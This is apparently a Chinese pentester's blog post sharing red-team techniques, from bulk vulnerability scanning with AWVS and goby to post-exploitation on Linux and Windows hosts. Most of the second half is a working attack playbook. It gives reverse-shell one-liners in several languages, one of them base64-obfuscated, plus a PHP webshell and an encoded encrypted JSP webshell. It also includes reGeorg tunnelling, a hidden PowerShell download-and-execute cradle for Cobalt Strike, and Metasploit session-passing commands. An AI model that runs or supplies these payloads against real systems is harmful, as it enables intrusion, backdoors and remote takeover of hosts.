






安服仔，最近做了好几个项目都是红队服务，我一ctf签到选手，src低危挖掘者，日常项目低危三连玩家哪懂这啊。好在大佬们实在太猛，给大佬们端茶倒水好好学习了一波。

## 1.前期打点

前期打点个人感觉就是批量批量再批量，红队服务不同于日常项目一个登陆框日一天，可以针对目标范围内所有资产进行渗透，这个时候大范围收集相关子域名，c段就很有必要。资产直接找客户要，客户很多都会给。也可以自己收集，google找到官网，[onefoeall](https://github.com/shmilylty/OneForAll)收集子域名，[ARL](https://github.com/TophantTechnology/ARL)收集相关资产...方法很多。

收集到了足够的资产之后，就是快乐的批量打点时间，作为一个没有0day，没有批量脚本的菜鸡，当然要充分发挥各大工具的作用。

### 1.1 awvs 

awvs这个不用多说，收集到的子域名直接往里面导入就完事，子域名太多不想手动？批量脚本来一波，该脚本导入url的同时可开启awvs的代理联动xray，在相同目录下新建url.txt文件，将需要扫描的url放到里面即可，一次性导入太多子域名可能会卡，可以根据自身主机性能适当调整导入50个还是100个...

```python
import requests
import json
import  requests.packages
import  urllib3.packages
from urllib3.exceptions import InsecureRequestWarning
# from requests.packages.urllib3.exceptions import InsecureRequestWarning
# requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
urllib3.disable_warnings(InsecureRequestWarning)

apikey = '1986ad8c0a5b3df4d7028d5f3c06e936c824cdd6ca6d14ec78eed27dce5423fa8'
# 去 AWVS 配置文件里面  有个 API KEY  复制填进去就行
apikey = str(apikey)
headers = {'Content-Type': 'application/json',"X-Auth": apikey}


def addTask(url,target):
    try:
        url = ''.join((url, '/api/v1/targets/add'))
        data = {"targets":[{"address": target,"description":""}],"groups":[]}
        r = requests.post(url, headers=headers, data=json.dumps(data), timeout=30, verify=False)
        result = json.loads(r.content.decode())
        return result['targets'][0]['target_id']
    except Exception as e:
        return e
def scan(url,target,Crawl,user_agent,profile_id,proxy_address,proxy_port):
    scanUrl = ''.join((url, '/api/v1/scans'))
    target_id = addTask(url,target)

    if target_id:
        data = {"target_id": target_id, "profile_id": profile_id, "incremental": False, "schedule": {"disable": False, "start_date": None, "time_sensitive": False}}
        try:
            configuration(url,target_id,proxy_address,proxy_port,Crawl,user_agent)
            response = requests.post(scanUrl, data=json.dumps(data), headers=headers, timeout=30, verify=False)
            result = json.loads(response.content)
            return result['target_id']
        except Exception as e:
            print(e)

def configuration(url,target_id,proxy_address,proxy_port,Crawl,user_agent):
    configuration_url = ''.join((url,'/api/v1/targets/{0}/configuration'.format(target_id)))
    
    #取消注释可使用awvs的代理功能，代理地址为：127.0.0.1:7777可，本地启动xray监听即可联动xray，非常的人性化
    #data = {"scan_speed":"fast","login":{"kind":"none"},"ssh_credentials":{"kind":"none"},"sensor": False,"user_agent": user_agent,"case_sensitive":"auto","limit_crawler_scope": True,"excluded_paths":[],"authentication":{"enabled": False},"proxy":{"enabled": True,"protocol":"http","address":proxy_address,"port":proxy_port},"technologies":[],"custom_headers":[],"custom_cookies":[],"debug":False,"client_certificate_password":"","issue_tracker_id":"","excluded_hours_id":""}
    
    #不使用代理
    data = {"scan_speed":"fast","login":{"kind":"none"},"ssh_credentials":{"kind":"none"},"sensor": False,"user_agent": user_agent,"case_sensitive":"auto","limit_crawler_scope": True,"excluded_paths":[],"authentication":{"enabled": False},"proxy":{"enabled": Crawl,"protocol":"http","address":proxy_address,"port":proxy_port},"technologies":[],"custom_headers":[],"custom_cookies":[],"debug":False,"client_certificate_password":"","issue_tracker_id":"","excluded_hours_id":""}
    r = requests.patch(url=configuration_url,data=json.dumps(data), headers=headers, timeout=30, verify=False)
def main():
    Crawl = False
    proxy_address = '127.0.0.1'
    proxy_port = '7777'
    awvs_url = 'https://127.0.0.1:13443/' #awvs url
    with open('url.txt','r',encoding='utf-8') as f:
        targets = f.readlines()
    profile_id = "11111111-1111-1111-1111-111111111111"
    user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21" #扫描默认UA头
    if Crawl:
        profile_id = "11111111-1111-1111-1111-111111111117"
    for target in targets:
        target = target.strip()
        if scan(awvs_url,target,Crawl,user_agent,profile_id,proxy_address,int(proxy_port)):
            print("{0} 添加成功".format(target))


if __name__ == '__main__':
    main()
```

### 1.2 goby

goby也是一个批量打点的好东西，收集到的子域名，C段，往里面一导等着出结果就完事。但是goby我习惯开全端口，这就导致结果出的比较慢，为了不显得那么划水，可以实时查看goby识别出的web网站，结合xray插件提高效率




像这种准确识别出title头的网站，不要犹豫点击xray按钮干他。




### 1.3 大佬分享的护网自动化小脚本

护网自动化脚本：https://mp.weixin.qq.com/s/uHNx28XFZ5M6KwykMC4Jsg

github地址：https://github.com/0x9f99/Recon

该项目牛逼的地方在于，你只要给他一个域名列如：./recon.sh domain.com 他就会自动收集子域名，解析对应ip保留c段进行masscan+nmap的全端口扫描，

并对扫描的结果进行插件中集成的poc探测。假如头一天接到红队项目，知道明天要去打红队，那晚上先在服务器上`./recon.sh domain.com > log.txt 2>&1 &` 第二天起床上班看结果，岂不美滋滋。

还有很多打点的方法，菜鸡只分享自己会的，欢迎大佬们补充教教我...

### 1.4 动静比较小的打法

一些红队测试可能会有溯源，反制等操作。这时候awvs/goby这些动静大的工具一开，可能很快就报警被拦截了。这时候就要换点思路了。

arl就是一款不错的工具，利用自己编写的探测指纹，优先识别出目标资产中例如：struts2/weblogic/shiro等组件开发的系统。针对性去重点测试。

更多可以参考我的文章：https://h11ba1.com/posts/arl_poc%E7%BC%96%E5%86%99.html

## 2. 打点之后的持续深入

日常只会发现漏洞，找到一个s2，shiro之类的命令执行，第一时间竟感到一丝茫然Σ(っ °Д °;)っ

看了大佬们的操作后，及时学习了一波

找到命令执行之后先判断，是linux还是windows服务器，个人感觉两种服务器略有不同的渗透方法，linux服务器更多的考虑上线代理脚本进行内网渗透，windows服务器肯定要上线cs或者打一个msf的meterpreter。

### linux主机

当然第一步肯定先建立一个稳定的入口点，可以考虑反弹shell或者写一个webshell，方便接下来的渗透，

#### 2.1 反弹shell

反弹shell一般使用bash

bash:

```shell
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
```

```
base64编码为'bash -i >& /dev/tcp/192.168.146.129/2333 0>&1'编码

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE0Ni4xMjkvMjMzMyAwPiYx}|{base64,-d}|{bash,-i}
```

python:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

awk:

```
awk 'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

php:

```
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby

```
ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

telnet:

```
mknod test p && telnet ip port 0<test | /bin/bash 1>test
telnet ip port | /bin/bash | telnet ip port
```

#### 2.2 写入webshell

命令执行到写入webshell还是有很多坑的，接下来简单记录学习到的方法

##### web路径发现

find命令直接查找web文件，这里查找js文件，可以在网站首页查看js文件名，针对性查找，也可以使用*.js查找所有。

```
find / -name *.js

查找的文件太大，可能会卡死可以只返回固定行数
find / -name *.html > result;head -n 10 result;rm result
```

读取web日志,查看web路径

查看log位置：

```
find / -name log
find / -name nginx.conf
find / -name httpd.conf
查找含有web关键字的文件名
find / -name '*web*'
```

常见日志位置：

```bash
/var/log/access_log
/var/log/errors_log

/var/log/access.log
/var/log/errors.log

/var/log/apache/access_log
/var/log/apache/error_log

/var/log/apache/access.log
/var/log/apache/error.log

/var/log/apache2/access_log
/var/log/apache2/error_log

/var/log/apache2/access.log
/var/log/apache2/error.log

/var/log/httpd/access_log
/var/log/httpd/error_log

/var/log/httpd/access.log
/var/log/httpd/error.log

/var/www/logs/error_log
/var/www/logs/access_log

/var/www/logs/error.log
/var/www/logs/access.log

/apache/logs/error_log
/apache/logs/access_log

/apache/logs/error.log
/apache/logs/access.log

/usr/local/apache/logs/access_log
/usr/local/apache/logs/error_log

/usr/local/apache/logs/access.log
/usr/local/apache/logs/error.log

/usr/local/apache2/logs/access_log
/usr/local/apache2/logs/error_log

/usr/local/apache2/logs/access.log
/usr/local/apache2/logs/error.log

/etc/httpd/logs/access_log
/etc/httpd/logs/error_log

C:\PhpStudy\PHPTutorial\Apache\logs\access.log
C:\PhpStudy\PHPTutorial\Apache\logs\error.log
```

也可以读取配置文件来查找对应的日志：

```bash
/etc/httpd/conf/httpd.conf
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/etc/apache2/apache2.conf


# nginx -t 测试配置文件是否正确，同时也告诉了配置文件的路径
/usr/local/etc/nginx/nginx.conf
/etc/nginx/nginx.conf
```

Window 2003 + IIS6.0 日志文件默认放在

```
C:\WINDOWS\system32\Logfiles
配置文件默认在
C:\Windows\system32\inetsrv\metabase.xml
```

IIS 7 日志文件默认在

```
C:\inetpub\logs\LogFiles
```

配置文件默认目录

```
C:\Windows\System32\inetsrv\config\applicationHost.config
C:\apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\program files\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\error.log
C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\wamp\apache2\logs
C:\xampp\apache\logs\access.log
```

##### 写入webshell

发现web路径之后可写入webshell

```
echo '<?php $_REQUEST[1];?>' > /var/www/html/phpinfo.php
```

webshell简单编码：

```shell
将webshell使用burp base64编码 

echo -n "PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLGphdmF4LmNyeXB0by4qLGphdmF4LmNyeXB0by5zcGVjLioiJT48JSFjbGFzcyBVIGV4dGVuZHMgQ2xhc3NMb2FkZXJ7VShDbGFzc0xvYWRlciBjKXtzdXBlcihjKTt9cHVibGljIENsYXNzIGcoYnl0ZSBbXWIpe3JldHVybiBzdXBlci5kZWZpbmVDbGFzcyhiLDAsYi5sZW5ndGgpO319JT48JWlmIChyZXF1ZXN0LmdldE1ldGhvZCgpLmVxdWFscygiUE9TVCIpKXtTdHJpbmcgaz0iZTQ1ZTMyOWZlYjVkOTI1YiI7LyrlxqU63qXGATMyTW1kNTyETTE2TQzYpN6lxgFyZWJleW9uZCovc2Vzc2lvbi5wdXRWYWx1ZSgidSIsayk7Q2lwaGVyIGM9Q2lwaGVyLmdldEluc3RhbmNlKCJBRVMiKTtjLmluaXQoMixuZXcgU2VjcmV0S2V5U3BlYyhrLmdldEJ5dGVzKCksIkFFUyIpKTtuZXcgVSh0aGlzLmdldENsYXNzKCkuZ2V0Q2xhc3NMb2FkZXIoKSkuZyhjLmRvRmluYWwobmV3IHN1bi5taXNjLkJBU0U2NERlY29kZXIoKS5kZWNvZGVCdWZmZXIocmVxdWVzdC5nZXRSZWFkZXIoKS5yZWFkTGluZSgpKSkpLm5ld0luc3RhbmNlKCkuZXF1YWxzKHBhZ2VDb250ZXh0KTt9JT4=" | base64 -d > /var/www/test.jsp
```

#### 2.3 上线代理

代理可以通过上传reGeorg脚本使用proxifier连接进行测试

reGeorg地址：https://github.com/sensepost/reGeorg

访问上传的的代理脚本，出现该字样表明上传成果。


然后python运行reGeorgSocksProxy.py脚本

```
python -u 'http://209.141.41.86:8080/tunnel.nosocket.php' -p 8080
```

然后使用Proxifier即可连接代理。

Proxifier使用方法：https://blog.csdn.net/u013066730/article/details/88788191


在实际进行代理脚本上传过程中将代理脚本base64编码，会因为太长存在截断问题，php含有特殊符号如&等post数据时会被当做参数被截断。可通过url编码来尝试解决。


### windows主机

#### 2.1windows主机信息收集

```shell
ipconfig /all    本机网络配置
net user         查看用户

tasklist                  查询进程
tasklist /svc             查看进程，将返回的进程结果复制到在线网站
在线杀软识别网站：
		https://www.secshi.com/sharuan.html
		https://www.ddosi.com/av/1.php


net localgroup administrators  查看本地管理员信息
query user || qwinsta  查看当前在线的用户
netstat -ano       查看端口

查看当前权限：whoami

获取域id：whoami /all
获取指定用户的详细信息：net user xxx /domain

判断是否存在域
使用ipconfig /all即可做出判断
查询当前的登录域与用户信息：net config workstation
判断主域：net time /domain


route print   arp -a
查询路由表及所有可用的ARP缓存表

netsh firewall show config   查看防火墙配置

net share  
wmic share get name,path,status  查看本机共享列

systeminfo        
wmic qfe get caption,description,hotfixid,installedon  查询操作系统及版本信息，补丁信息等
在线查看提权exp网站：
		http://blog.neargle.com/win-powerup-exp-index/
		https://bugs.hacking8.com/tiquan/
github项目：https://github.com/AonCyberLabs/Windows-Exploit-Suggester


reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"   查看代理

```

更多详情可以看：https://xz.aliyun.com/t/7663#toc-6

#### 2.2 上线cs

cs上线之前需要先建立监听：

Cobalt Strike-->Listenrs   Add 一个监听器



##### 2.2.1执行木马上线cs

生成windows木马：Attacks-->Packages-->Windows Executable

如果主机是64位则需要勾选x64，点击Generate即可生成木马，上传到目标机，命令行执行即可上线。




但是cs的木马上传到目标机时容易被杀软杀掉，此时就需要考虑其他方式上线

如：powershell上线,msf建立meterpreter派生...

##### 2.2.2. powershell上线cs

生成powershell payload



```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.75.128:80/a2'))"
```

命令行执行，即可上线。

##### 2.2.3 msf---cs交互

**cs派生会话给msf**

msf：

```
Set payload windows/meterpreter/reverse_http(这里一定要选择http的这个，因为cs监听器传递会话只支持http和https)  选择payload
Show options           查看需要配置的选项
Set lhost 0.0.0.0       监听本地ip
Set lport 2020          监听端口
Exploit             执行
```

cs建立监听器：


一定要选择Foregin对外监听器，host填msf ip，port填写msf监听端口。


**msf派生会话给cs:**

cs选择建立的http/https监听器。

msf:

```shell
use exploit/windows/local/payload_inject

set payload windows/x64/meterpreter/reverse_http（选用的payload一定要跟cs下监听的payload方式一样，注意32位和64位）
set DisablePayloadHandler true（禁止产生一个新的handler）
set LHOST IP（ip为cs监听会话用的ip）
set LPORT 端口（端口为cs对应的接受反弹shell的端口）
set pid 进程号（设置派生给cs后木马进程的pid进程号，如果有system权限则可以指定一个具有system权限的进程，这样cs接收到会话也是最高权限，也可以不手动选择进程号）
set session 1（设置需要派送的meterpreter）
exploit（开始执行）
```

如果msf报错：[-] Exploit aborted due to failure: bad-config: Cannot inject a 64-bit payload into any process on a 32-bit OS

去掉/x64即可。

给大佬们打好了点，上线了cs之后，顿时感觉索然无味，人生失去了方向。为了接下来的项目有点参与感，简单学习一下内网打法。
